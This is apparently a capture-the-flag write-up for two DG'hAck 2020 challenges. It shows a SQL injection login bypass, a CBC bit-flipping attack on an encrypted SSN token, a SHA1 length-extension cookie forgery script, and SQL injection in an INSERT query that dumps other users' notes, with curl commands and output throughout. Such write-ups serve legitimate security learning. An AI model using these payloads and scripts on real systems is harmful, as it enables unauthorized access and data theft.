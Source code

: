 ```yaml
---
title: "DG'hAck: Sad Crypto and Stickitup"
date: 2020-12-02T13:43:03+01:00
tags:
  - dghack2020
summary: "Another DG'hAck 2020 challenges: sad crypto & stickitup"
---
```


# Sad Crypto

The challenge is now to retrieve encryption keys from a SSN web service. You'll face a login/password form with a captcha at first. It will be easily breakable using a basic SQL injection. I mean, login `" or 1=1;--`, password `" or 1=1;--` will just work.

Once logged-in, you'll find out you can't query for your target. However, there is quite a few another entries, like `Bruce Wayne`, in the database. Querying for this user will return the encryption key `797b4c-c4bd852fe0e32ebda194cb2a9fe00099`.

Following the requests, you'll find out that it will start by:

```sh
curl 'http://sadcrypto.chall.malicecyber.com/api/v1/validate' \
  -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjpbeyJpZCI6MX1dLCJpYXQiOjE2MDYyOTA1NTQsImV4cCI6MTYwNjQ2MzM1NH0.jkPNS-jZT8HzDTsQnu3Clbp4xXiJVZI1dgQNrJCvRgI' \
  --data-raw 'ssn=1-78-67-78-356-789-12'
... snip ...
{"success":true,"message":"","data":{"keyRequest":"33fbce50e4643f46a70a5e9b79d9897937ba685ef43821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4"}}
```

and will continue with

```sh
curl 'http://sadcrypto.chall.malicecyber.com/api/v1/keygen/33fbce50e4643f46a70a5e9b79d9897937ba685ef43821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4' \
  -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjpbeyJpZCI6MX1dLCJpYXQiOjE2MDYyOTA1NTQsImV4cCI6MTYwNjQ2MzM1NH0.jkPNS-jZT8HzDTsQnu3Clbp4xXiJVZI1dgQNrJCvRgI'
... snip ...
{"success":true,"message":"","hash":"797b4cc4bd852fe0e32ebda194cb2a9fe00099427615c4aae33ad77c9fa298fd"}
```

If we try with our target SSN (`1-46-85-30-750-318-37`), it will fail:

```sh
$ curl 'http://sadcrypto.chall.malicecyber.com/api/v1/validate'   -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjpbeyJpZCI6MX1dLCJpYXQiOjE2MDYyOTA1NTQsImV4cCI6MTYwNjQ2MzM1NH0.jkPNS-jZT8HzDTsQnu3Clbp4xXiJVZI1dgQNrJCvRgI'   --data-raw 'ssn=1-46-85-30-750-318-37'
... snip...
{"success":false,"message":"Cette ressource est verrouillée"}
```

Okay, sad. Let's get back to the last query, and modify a bit, just to find out what it will do:

```sh
$ curl 'http://sadcrypto.chall.malicecyber.com/api/v1/keygen/33fbc750e4643f46a70a5e9b79d9897937ba685ef43821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4'
   -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjpbeyJpZCI6MX1dLCJpYXQiOjE2MDYyOTA1NTQsImV4cCI6MTYwNjQ2MzM1NH0.jkPNS-jZT8HzDTsQnu3Clbp4xXiJVZI1dgQNrJCvRgI'
... snip...
{"ssn":"1->8-67-78-356-789-12","success":false,"message":"le numéro de sécurité sociale soumis est invalide"}
```

Oh. It modified the SSN. So, the `keyRequest` field is somewhat linked with SSN. Most likely, the SSN is in fact encrypted. As the SSN is 21 bytes, the keyRequest 48 bytes, and modifying a single bit in the first bytes of the `keyRequest`, than we're facing to some crypto with an IV vulnerable to some bitflipping attack. Modifying more bytes will confirm this, because modifying the 17th byte will rewrite the whole first block, meaning we are facing some CBC block cryptography. `keyRequest` is in the form

```
[.......IV.......][....block 1.....][....block 2.....]
```

Modifying IV will modifying uncrypted block 1 because of CBC (as IV is xoring result of unencryption of block1). Modifying crypted block1 will modify uncrypted block2, and so on. So, to modify the SSN from Bruce Wayne's to our target's, we must flip bits from encrypted 1st block, then flip bits from IVs. To do this, I wrote & used 2 tools:

```sh
$ ./test_crypto 1-78-67-78-356-789-12 33fbce50e4643f46a70a5e9b79d9897937ba685ef43821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4
new: 33fbce50e4643f46a70a5e9b79d98979 3ebb685cf13821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4
```

```sh
$ curl 'http://sadcrypto.chall.malicecyber.com/api/v1/keygen/33fbce50e4643f46a70a5e9b79d989793ebb685cf13821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4'
   -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjpbeyJpZCI6MX1dLCJpYXQiOjE2MDYyOTA1NTQsImV4cCI6MTYwNjQ2MzM1NH0.jkPNS-jZT8HzDTsQnu3Clbp4xXiJVZI1dgQNrJCvRgI'
{"ssn":"\u0002ï¿½\u0006ï¿½ï¿½\u000e9Ç®\u0000ï¿½ï¿½S\u0003ï¿½18-37","success":false,"message":"le numéro de sécurité sociale soumis est invalide"}
```

2nd tool will bruteforce again API to find out the first bits to flip:

```sh
$ python bf eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjpbeyJpZCI6MX1dLCJpYXQiOjE2MDYyOTA1NTQsImV4cCI6MTYwNjQ2MzM1NH0.jkPNS-jZT8HzDTsQnu3Clbp4xXiJVZI1dgQNrJCvRgI 33fbce50e4643f46a70a5e9b79d989793ebb685cf13821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4

http://sadcrypto.chall.malicecyber.com/api/v1/keygen/00fbce50e4643f46a70a5e9b79d989793ebb685cf13821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4
{"ssn":"1?\u0006??\u000e9?\u0000??S\u0003?18-37","success":false,"message":"le num?ro de s?curit? sociale soumis est invalide"}
00
        ^
...

http://sadcrypto.chall.malicecyber.com/api/v1/keygen/0005fc9e38ce045253940d9b79d989793ebb685cf13821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4
{"ssn":"1-46-85-30S??S\u0003?18-37","success":false,"message":"le num?ro de s?curit? sociale soumis est invalide"}
                  ^
...

http://sadcrypto.chall.malicecyber.com/api/v1/keygen/0005fc9e38ce04525394734983baa79f3ebb685cf13821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4
{"ssn":"1-46-85-30-750-\t18-37","success":false,"message":"le num?ro de s?curit? sociale soumis est invalide"}
                       ^^
http://sadcrypto.chall.malicecyber.com/api/v1/keygen/0005fc9e38ce04525394734983baa7a03ebb685cf13821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4
{"success":true,"message":"","hash":"5c2b14d8b055058bd47fa73de886000eb264281fa5292cdf81dd896541dc1930"}
'ssn'

http://sadcrypto.chall.malicecyber.com/api/v1/keygen/0005fc9e38ce04525394734983baa7a13ebb685cf13821990072643c905b3af5b6fc128c4fef6d8260a52a3f55d358d4
{"success":true,"message":"","hash":"2f4746d53204699f60f2ba0f689bcee2d5ecc8e0c3fa042f883cedb949591e9c"}
'ssn'
```

At the end, we just need to test the last remaining hash (a couple), and once you've got the correct hash, to reformat it to get the flag: `2ed35b-fd91f07094b4447deac135cb8d4b6e45`.


# StickItUp

You're now facing a post-it like website: A registration form, a login form, a page to send write post-its, read them & delete them. Nothing fancy.

In the source code of the main page, we're seeing:

```php
<!-- $_COOKIES['auth'] = 'testuser:' . sha1(SECRET_KEY . 'testuser'); -->
```

This auth cookie is in the auth:hash form. Hash is doing 20 bytes because it is a sha1. It is definitely vulnerable to a [length extension attack](https://en.wikipedia.org/wiki/Length_extension_attack).

Before continuing, we'll retrieve valid cookie value (dump from chrome):

```sh
curl 'http://stickitup.chall.malicecyber.com/notes.php' \
  -H 'Referer: http://stickitup.chall.malicecyber.com/member.php' \
  -H 'Cookie: PHPSESSID=517sutmuivn1u443jh15u2dhu1; auth=testaroo%3A4e481149bcbd121513e4f1a0c2366c96e77bb676' \
  --data-raw 'title=new+note&text=new+content'
```

We'll make use of [hash extender](https://github.com/iagox86/hash_extender) to guess the key size.

```sh
#!/bin/sh

HASHEXT=$HOME/tmp/hash_extender/hash_extender

for i in $(seq 1 30); do
    out=$($HASHEXT -f sha1 -s cbbd5ced55a1924075dca803f727b7f5eaabdf90 -d aaaa0 -a A -l $i --out-data-format=html --table)

    user=$(echo $out | cut -d ' ' -f3)
    sig=$(echo $out | cut -d ' ' -f2)

    curl -s 'http://stickitup.chall.malicecyber.com/member.php' -H "Cookie: PHPSESSID=n4um3fehrhrp0834uidgp7ljj4; auth=$user:$sig" |grep "Add note"
    res=$?
    echo "secret:$i:$res"
done
```

As a result:

```sh
$ sh check_cookie.sh
secret:1:1
secret:2:1
...
secret:15:1
Binary file (standard input) matches
secret:16:0
...
```

Key is 16 bytes long. We just needed that. Now, we can craft any valid username:hash values. As the new user value is trusted by the website, it is still required to find the vulnerability to exploit it using our user. With more research, we find out using `or sleep(1)` in the `username` than the website is vulnerable to a SQL injection in the username:

```sh
testaroo%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%c0%27+or+sleep%281%29+or+%271%27%3d%271:9d156c0f4247f9a3ca6056ccebf7d6c65f26dfb2
```

As we're running this in the `notes.php` query, which creates a post-it, we can safely conclude we're in an `INSERT` query. The query is most likely:

```sql
INSERT INTO posts(alias, title, text) VALUES('testaroo<--- payload --->', 'title', 'note');
```

We can make use of multiple record inserts to add anything we want in the query, like:

```sql
INSERT INTO posts(alias, title, text) VALUES('alias1','title','note'),('alias','title','note'),('alias','title','note');
```

To enable this, we create a quick script

```sh
#!/bin/sh

query=$(echo -n $1 | xxd -p)
query=$1

if test "x$query" = "x"; then
    exit 0
fi

base_user=testaroo
base_pass=4e481149bcbd121513e4f1a0c2366c96e77bb676
base_cookie=517sutmuivn1u443jh15u2dhu1

stuff=$(./hash_extender/hash_extender -f sha1 -s $base_pass -a "$query" -l 16 -d $base_user --out-data-format=html --table)

user=$(echo $stuff|cut -d' ' -f3)
pass=$(echo $stuff|cut -d' ' -f2)

echo $user:$pass

title=title$RANDOM
text=text$RANDOM

echo "Doing: INSERT INTO posts (alias, title, text) VALUES (\"$user\", \"$title\", \"$text\");"

curl -v 'http://stickitup.chall.malicecyber.com/notes.php' \
  -H 'Origin: http://stickitup.chall.malicecyber.com' \
  -H "Cookie: PHPSESSID=${base_cookie}; auth=$user:$pass" \
  --data-raw "title=${title}&text=${text}"

echo; echo; echo

curl -sv 'http://stickitup.chall.malicecyber.com/member.php' --output - \
  -H "Cookie: PHPSESSID=n4um3fehrhrp0834uidgp7ljj4; auth=$user:$pass" |sed -e 's/<[^>]*>//g' | sed '/^[[:space:]]*$/d'

decoded_user=$(echo $user |python3 -c "import sys; from urllib.parse import unquote; print(unquote(sys.stdin.read()));" 2>/dev/null)

echo "Doing: INSERT INTO posts (alias, title, text) VALUES (\"$decoded_user\", \"$title\", \"$text\");"
```

As a result, we create a new post-it with all values from all existing post-its:

```sh
$ sh query.sh 'a","a","b"),("testaroo", "title", (SELECT titles FROM (SELECT GROUP_CONCAT(content SEPARATOR ",") as titles FROM note) a)),("testaroo'
testaroo%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%c0a%22%2c%22a%22%2c%22b%22%29%2c%28%22testaroo%22%2c+%22title%22%2c+%28SELECT+titles+FROM+%28SELECT+GROUP%5fCONCAT%28content+SEPARATOR+%22%2c%22%29+as+titles+FROM+note%29+a%29%29%2c%28%22testaroo:8884b6aa3589f5d0ff7beeb72b1b0845f5df55ec
...
Doing: INSERT INTO posts (alias, title, text) VALUES ("testarooï¿½ï¿½a","a","b"),("testaroo",+"title",+(SELECT+titles+FROM+(SELECT+GROUP_CONCAT(content+SEPARATOR+",")+as+titles+FROM+note)+a)),("testaroo", "title11968", "text30311");
```

And checking our post-its, we'll find out that the flag is `-+-{{akUX7Aihx9}}-+-`.
